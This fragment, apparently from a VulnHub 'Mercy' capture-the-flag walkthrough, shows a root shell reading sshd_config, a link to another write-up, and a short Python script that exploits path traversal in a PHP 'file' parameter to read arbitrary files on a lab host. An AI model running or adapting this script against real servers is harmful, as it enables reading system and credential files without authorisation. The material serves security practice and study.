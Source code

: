     Congratulations, once again, for you TRIED HARDER!




```bash
root@MERCY:/etc/ssh# cat sshd_config
  
    AllowUsers pleadformercy
    
```



## Plus
https://www.sevenlayers.com/index.php/143-vulnhub-mercy-walkthrough

#!/usr/bin/python3
import requests as req
import re

host='http://192.168.110.61/nomercy/windows/code.php?file=../../../../../../../../..'

while True:
    command=input("file: ")
    combined=host+command
    resp = req.get(combined)
    content = resp.text
    stripped = re.sub('<[^<]+?>', '', content)
    clean = re.sub('<?', '', stripped)
    print(clean)

